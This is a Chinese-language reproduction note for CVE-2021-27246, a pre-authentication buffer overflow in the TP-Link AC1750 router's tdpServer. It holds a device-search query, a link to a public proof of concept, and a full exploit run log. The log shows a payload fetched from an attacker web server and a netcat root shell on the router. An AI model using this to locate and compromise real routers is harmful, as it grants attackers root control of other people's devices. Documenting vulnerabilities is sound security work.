 # TP-Link AC1750 预认证远程代码执行漏洞 CVE-2021-27246

# TP-Link AC1750 预认证远程代码执行漏洞CVE-2021-27246

## 漏洞描述

在TP-Link AC1750的tdpServer守护程序中存在漏洞，没有检查json数据的大小，导致了缓冲区溢出，通过缓冲区溢出，可以导致代码执行。

参考阅读：

- https://www.synacktiv.com/publications/pwn2own-tokyo-2020-defeating-the-tp-link-ac1750.html

## 网络测绘

```
app="TP_LINK-AC1750"
```

## 漏洞复现

- poc：https://github.com/synacktiv/CVE-2021-27246_Pwn2Own2020

```
$ bash exploit.sh 
[+] Launching web server for distribution of pwn.sh
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload

[+] Trying the root shell (Low probability of success...)
nc -v 192.168.0.1 12345
nc: connect to 192.168.0.1 port 12345 (tcp) failed: Connection refused

[ ] If shell hasn't succeed, don't worry, we retry 

INFO:tdpwn:Associating 49 onemesh clients...
INFO:tdpwn:Done!
    And wait for 80 seconds...
80 seconds left...
70 seconds left...
60 seconds left...
50 seconds left...
40 seconds left...
30 seconds left...
20 seconds left...
10 seconds left...
[+] Trying to exploit the tddp injection
INFO:tdp:Preparing tddpv1_configset payload
INFO:tdp:Sending payload
192.168.0.1 - - [30/Nov/2020 12:10:59] "GET /pwn.sh HTTP/1.1" 200 -

[+] Trying the root shell (High probability of success...)
nc -v 192.168.0.1 12345
Connection to 192.168.0.1 12345 port [tcp/*] succeeded!
uname -a
Linux ArcherA7v5 3.3.8 #1 Mon Sep 14 19:52:46 CST 2020 mips GNU/Linux
id
uid=0(root) gid=0(root)
^C[-] Stopping Webserver, now
Terminated
```



